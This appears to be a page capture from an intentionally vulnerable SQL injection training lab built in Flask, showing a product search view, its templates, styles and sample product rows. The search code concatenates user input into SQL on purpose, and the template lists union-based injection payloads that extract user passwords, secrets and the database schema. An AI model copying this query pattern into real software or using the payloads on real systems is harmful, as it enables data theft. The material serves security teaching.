

Screenshot of /search with the database file from the repository (2 pictures, top to bottom).
### tables this page shows
CREATE TABLE products (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    name TEXT NOT NULL,
    description TEXT,
    price REAL,
    category TEXT,
    stock INTEGER DEFAULT 0
);

### app.py (the view)
@app.route('/search')
def search():
    query_param = request.args.get('q', '')
    results = []
    executed_query = None
    error = None
    db = get_db()
    query = "SELECT id, name, description, price, category FROM products WHERE name LIKE '%" + query_param + "%'"
    executed_query = query
    try:
        results = db.execute(query).fetchall()
    except sqlite3.Error as e:
        error = str(e)
    return render_template('search.html',
                         results=results,
                         query=query_param,
                         executed_query=executed_query,
                         error=error)

### app.py (called while the page is built)
def get_db():
    if 'db' not in g:
        g.db = sqlite3.connect(DATABASE)
        g.db.row_factory = sqlite3.Row
    return g.db

### templates/search.html (shortened to what this page needs)
{% extends "base.html" %}
{% block content %}
<div class="card">
    <div class="card-header">
        <span class="card-title">🔍 Product Search</span>
        <span class="badge badge-danger">Vulnerable: Union-Based SQLi</span>
    </div>
    <p style="color: var(--text-muted); font-size: 14px; margin-bottom: 20px;">
        This search is vulnerable to <strong>Union-Based SQL Injection</strong>.
        The search term is directly concatenated into a SELECT query, allowing UNION attacks to extract data from other tables.
    </p>
    <form method="GET" action="{{ url_for('search') }}">
        <div style="display: flex; gap: 12px;">
            <input type="text" name="q" value="{{ query }}" placeholder="Search products..." style="flex: 1;">
            <button type="submit" class="btn btn-primary">Search</button>
        </div>
    </form>
    {% if executed_query %}
    <div class="query-box">
        <span class="label">Executed SQL Query</span>
        <code>{{ executed_query }}</code>
    </div>
    {% endif %}
</div>
{% if results %}
<div class="card">
    <div class="card-header">
        <span class="card-title">Results ({{ results|length }} found)</span>
    </div>
    <table class="data-table">
        <thead>
            <tr><th>ID</th><th>Name</th><th>Description</th><th>Price</th><th>Category</th></tr>
        </thead>
        <tbody>
            {% for row in results %}
            <tr>
                <td>{{ row[0] }}</td>
                <td>{{ row[1] }}</td>
                <td>{{ row[2] }}</td>
                <td>${{ row[3] }}</td>
                <td>{{ row[4] }}</td>
            </tr>
            {% endfor %}
        </tbody>
    </table>
</div>
{% elif query %}
<div class="alert alert-info">No results found for "{{ query }}"</div>
{% endif %}
<div class="card">
    <div class="card-header">
        <span class="card-title">💉 Union-Based SQLi Payloads</span>
        <span class="badge badge-warning">Click to copy</span>
    </div>
    <div class="payload">
        <div class="payload-label">Extract all users (5 columns must match)</div>
        ' UNION SELECT id, username, password, email, role FROM users --
    </div>
    <div class="payload">
        <div class="payload-label">Extract secrets/flags</div>
        ' UNION SELECT id, secret_key, secret_value, description, 'secrets' FROM secrets --
    </div>
    <div class="payload">
        <div class="payload-label">Discover database schema</div>
        ' UNION SELECT null, name, sql, null, type FROM sqlite_master --
    </div>
    <div class="payload">
        <div class="payload-label">Get SQLite version</div>
        ' UNION SELECT null, sqlite_version(), null, null, null --
    </div>
    <div class="payload">
        <div class="payload-label">Extract orders with user info</div>
        ' UNION SELECT o.id, u.username, p.name, o.total_price, o.status FROM orders o JOIN users u ON o.user_id=u.id JOIN products p ON o.product_id=p.id --
    </div>
</div>
<div class="card" style="border-color: var(--success);">
    <div class="card-header">
        <span class="card-title" style="color: var(--success);">🛡️ Secure Version</span>
        <a href="{{ url_for('secure_search') }}" class="btn btn-outline" style="font-size: 12px; padding: 6px 12px;">Try Secure Search →</a>
    </div>
    <p style="color: var(--text-muted); font-size: 13px;">
        The secure version uses <code>?</code> parameterized LIKE queries, preventing UNION injection.
    </p>
</div>
{% endblock %}

### templates/base.html (shortened to what this page needs)
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body>
    <div class="warning-banner">
        This application is intentionally vulnerable and should only be used in a local lab environment for educational purposes.
    </div>
    <nav>
        <div class="nav-container">
            <a href="{{ url_for('index') }}" class="logo">🔓 SQLi Lab</a>
            <ul class="nav-links">
                <li><a href="{{ url_for('index') }}">Home</a></li>
                <li><a href="{{ url_for('login') }}">Login</a></li>
                <li><a href="{{ url_for('search') }}">Search</a></li>
                <li><a href="{{ url_for('feedback') }}">Feedback</a></li>
                <li><a href="{{ url_for('admin_feedback') }}">Admin</a></li>
                <li><a href="{{ url_for('docs') }}">Docs</a></li>
            </ul>
        </div>
    </nav>
    <main>
        {% block content %}{% endblock %}
    </main>
    <footer>
        <p>SQL Injection Lab — Educational Cybersecurity Training Tool</p>
        <p style="margin-top: 4px; opacity: 0.6;">Built for controlled learning environments only</p>
    </footer>
</body>
</html>

### templates/base.html (style rules this page uses)
:root { --bg: #0d1117; --bg-secondary: #161b22; --border: #30363d; --text: #c9d1d9; --text-muted: #8b949e; --accent: #58a6ff; --accent-hover: #79b8ff; --danger: #f85149; --warning: #f0883e; --success: #3fb950; --info: #58a6ff; }
* { margin: 0; padding: 0; box-sizing: border-box; }
body { font-family: 'Segoe UI', system-ui, -apple-system, sans-serif; background: var(--bg); color: var(--text); line-height: 1.6; min-height: 100vh; }
.warning-banner { background: linear-gradient(90deg, #ff6b6b, #f85149); color: white; padding: 12px 20px; text-align: center; font-weight: 600; font-size: 14px; letter-spacing: 0.5px; }
.warning-banner::before { content: "⚠️ "; }
nav { background: var(--bg-secondary); border-bottom: 1px solid var(--border); padding: 0 20px; position: sticky; top: 0; z-index: 100; }
.nav-container { max-width: 1200px; margin: 0 auto; display: flex; align-items: center; justify-content: space-between; height: 60px; }
.logo { font-size: 20px; font-weight: 700; color: var(--accent); text-decoration: none; display: flex; align-items: center; gap: 8px; }
.nav-links { display: flex; gap: 6px; list-style: none; }
.nav-links a { color: var(--text-muted); text-decoration: none; padding: 6px 12px; border-radius: 6px; font-size: 13px; font-weight: 500; transition: all 0.2s; }
main { max-width: 1200px; margin: 0 auto; padding: 30px 20px; }
.card { background: var(--bg-secondary); border: 1px solid var(--border); border-radius: 12px; padding: 24px; margin-bottom: 20px; }
.card-header { display: flex; align-items: center; justify-content: space-between; margin-bottom: 16px; }
.card-title { font-size: 18px; font-weight: 600; color: var(--text); }
.badge { display: inline-flex; align-items: center; padding: 4px 10px; border-radius: 20px; font-size: 11px; font-weight: 600; text-transform: uppercase; letter-spacing: 0.5px; }
.badge-danger { background: rgba(248, 81, 73, 0.15); color: var(--danger); border: 1px solid rgba(248, 81, 73, 0.3); }
.badge-warning { background: rgba(240, 136, 62, 0.15); color: var(--warning); border: 1px solid rgba(240, 136, 62, 0.3); }
input[type="text"], input[type="password"], input[type="email"], textarea { width: 100%; padding: 10px 14px; background: var(--bg); border: 1px solid var(--border); border-radius: 8px; color: var(--text); font-size: 14px; }
.btn { display: inline-flex; align-items: center; justify-content: center; gap: 8px; padding: 10px 20px; border: none; border-radius: 8px; font-size: 14px; font-weight: 600; cursor: pointer; transition: all 0.2s; text-decoration: none; }
.btn-primary { background: var(--accent); color: white; }
.btn-outline { background: transparent; border: 1px solid var(--border); color: var(--text); }
.query-box { background: #0d1117; border: 1px solid var(--border); border-radius: 8px; padding: 16px; margin: 16px 0; font-family: 'Consolas', 'Monaco', monospace; font-size: 13px; overflow-x: auto; }
.query-box .label { color: var(--text-muted); font-size: 11px; text-transform: uppercase; letter-spacing: 1px; margin-bottom: 8px; display: block; }
.query-box code { color: #a5d6ff; }
.data-table { width: 100%; border-collapse: collapse; margin-top: 16px; }
.data-table th, .data-table td { padding: 12px; text-align: left; border-bottom: 1px solid var(--border); font-size: 13px; }
.data-table th { color: var(--text-muted); font-weight: 600; text-transform: uppercase; font-size: 11px; letter-spacing: 0.5px; }
.payload { background: #1a1f2e; border-left: 3px solid var(--warning); padding: 12px 16px; margin: 8px 0; border-radius: 0 8px 8px 0; font-family: 'Consolas', 'Monaco', monospace; font-size: 12px; color: #e6edf3; cursor: pointer; transition: background 0.2s; }
.payload-label { font-size: 11px; color: var(--warning); margin-bottom: 4px; font-weight: 600; }
code { font-family: 'Consolas', 'Monaco', 'Courier New', monospace; color: #a5d6ff; }
footer { text-align: center; padding: 40px 20px; color: var(--text-muted); font-size: 12px; border-top: 1px solid var(--border); margin-top: 40px; }

### rows the page displays
products: id "1", name "Laptop Pro X1", description "High-performance business laptop with 16GB RAM", price "1299.99", category "Electronics"
products: id "2", name "Wireless Mouse", description "Ergonomic wireless mouse with USB receiver", price "29.99", category "Accessories"
products: id "3", name "USB-C Hub", description "7-in-1 USB-C hub with HDMI and card reader", price "49.99", category "Accessories"
products: id "4", name "Mechanical Keyboard", description "RGB mechanical keyboard with Cherry MX switches", price "89.99", category "Accessories"
products: id "5", name "Webcam HD 1080p", description "Full HD webcam with built-in microphone", price "59.99", category "Electronics"
products: id "6", name "Monitor 27\" 4K", description "27-inch 4K UHD monitor with IPS panel", price "349.99", category "Electronics"
products: id "7", name "SSD 1TB", description "1TB NVMe M.2 SSD with read speeds up to 3500MB/s", price "119.99", category "Storage"
products: id "8", name "RAM 32GB DDR4", description "32GB DDR4 3200MHz memory kit (2x16GB)", price "89.99", category "Components"
products: id "9", name "Graphics Card RTX 4060", description "NVIDIA GeForce RTX 4060 8GB GDDR6", price "299.99", category "Components"
products: id "10", name "Power Supply 750W", description "750W 80+ Gold fully modular power supply", price "109.99", category "Components"
products: id "11", name "CPU Cooler", description "AIO liquid cooler 240mm with RGB fans", price "79.99", category "Components"
products: id "12", name "Gaming Chair", description "Ergonomic gaming chair with lumbar support", price "199.99", category "Furniture"
products: id "13", name "Desk Mat XXL", description "Extra large desk mat 900x400mm", price "24.99", category "Accessories"
products: id "14", name "Cable Management Kit", description "Cable ties, clips, and sleeves organizer", price "14.99", category "Accessories"
products: id "15", name "Monitor Arm", description "Single monitor arm desk mount up to 32\"", price "44.99", category "Furniture"

### other values shown
{{ executed_query }} "SELECT id, name, description, price, category FROM products WHERE name LIKE '%%'"
{{ results|length }} "15"
